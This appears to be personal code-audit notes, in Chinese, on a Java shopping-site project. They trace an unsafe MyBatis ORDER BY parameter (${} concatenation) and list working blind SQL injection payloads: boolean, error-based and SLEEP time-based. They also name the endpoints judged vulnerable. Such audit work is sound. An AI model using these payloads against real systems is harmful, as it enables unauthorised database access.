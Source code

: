 通过查找的api product深入追踪，发现product_name并未进行过滤，但是采用的mybatis
定位mybatis，一直到
![[Pasted image 20250603220239.png]]
发现该功能没有问题，但是下面有个oederby。
orderby使用mybatis的话，这里传递过来的参数并没有直接用#作为值进行排序，用的$这样可以使用作为字段值
问题就在这里，如果没有进行过滤就可能存在在问题
orderby的话，如果预编译就把传进来的值作为数值进行了，sql中就不会把它当作字段进行排序。

登陆处
![[Pasted image 20250603222505.png]]
![[Pasted image 20250603222443.png]]



直接去看全部的mybatis配置的mapper文件
之发现存在ordervy的时候使用了%,这块等下再看一下咋回事就行，应该是有问题的，但是尝试出来
挺多接口的
这里返回信息只有错误请联系管理员，所以需要进行判断猜测


[java代码审计：tmall购物网站审计 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/348349.html)

orderby的利用方式不同，要这样就能实现出来了
①、使用rand函数结果显示排序方式不同

```
orderBy=rand(1=1)
orderBy=rand(1=2)
```

②、利用regexp（正则表达式）

```
orderBy=(select+1+regexp+if(1=1,1,0x00)) 正常
orderBy=(select+1+regexp+if(1=2,1,0x00)) 错误
```

③、利用updatexml（更新选定XML片段的内容）

```
orderBy=updatexml(1,if(1=1,1,user()),1) 正确
orderBy=updatexml(1,if(1=2,1,user()),1) 错误
```

④、利用extractvalue（从目标XML中返回包含所查询值的字符 串）

```
orderBy=extractvalue(1,if(1=1,1,user())) 正确
orderBy=extractvalue(1,if(1=2,1,user())) 错误
```

⑤、时间盲注

```
orderBy=if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test)) 
正常响应时间
orderBy=if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test)) 
sleep 2秒
```


通过直接定位orderby的mapper，反向找接口
存在问题的接口：
ProductMapper:
admin/product
admin/product/index/count
product
/product/index/count
guess/cid
product/pid
/

ProductOrderMapper
order/index/count
admin/order/index/count
admin/order

UserMapper
admin/user
admin/user/index/count

ReviewMapper
admin/reward/{index}/{count}
admin/reward/
reward/list/{index}/{count}





